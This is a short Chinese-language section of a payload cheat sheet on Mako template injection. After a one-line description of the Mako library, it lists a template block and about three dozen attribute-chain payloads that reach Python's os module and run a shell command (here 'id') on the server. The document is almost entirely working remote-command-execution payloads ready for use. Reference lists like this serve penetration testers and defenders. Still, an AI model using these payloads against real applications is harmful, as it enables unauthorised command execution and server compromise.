 [官方网站](https://www.makotemplates.org/)
> Mako 是一个用 Python 编写的模板库。概念上，Mako 是一种嵌入式 Python（即 Python Server Page）语言，它将组件化的布局和继承的概念提炼出来，产生了一种最直接和灵活的模型，同时保持与 Python 调用和作用域语义的紧密联系。

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

### Mako - 远程命令执行

这些有效负载允许直接访问 `os` 模块

```python
${self.module.cache.util.os.system("id")}
${self.module.runtime.util.os.system("id")}
${self.template.module.cache.util.os.system("id")}
${self.module.cache.compat.inspect.os.system("id")}
${self.__init__.__globals__['util'].os.system('id')}
${self.template.module.runtime.util.os.system("id")}
${self.module.filters.compat.inspect.os.system("id")}
${self.module.runtime.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.util.os.system("id")}
${self.template.__init__.__globals__['os'].system('id')}
${self.module.cache.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.util.os.system("id")}
${self.template.module.cache.compat.inspect.os.system("id")}
${self.module.cache.compat.inspect.linecache.os.system("id")}
${self.template._mmarker.module.runtime.util.os.system("id")}
${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
${self.template.module.filters.compat.inspect.os.system("id")}
${self.template.module.runtime.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
${self.template.module.filters.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
${self.context._with_template.module.cache.util.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.cache.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
${self.context._with_template.module.filters.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
```
